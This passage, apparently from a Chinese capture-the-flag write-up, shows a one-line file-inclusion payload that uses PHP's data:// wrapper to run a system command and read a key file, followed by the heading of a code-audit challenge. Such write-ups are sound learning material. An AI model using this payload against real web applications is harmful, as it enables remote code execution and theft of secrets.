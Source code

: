 利用data写一句话`index.php?page=data://text/plan,<?php system('tac ../key.php'); ?>`拿到key
![upload successful](/images/pasted-902.png)

# 34234 基础题目四：代码审计

进入查看代码
![upload successful](/images/pasted-903.png)
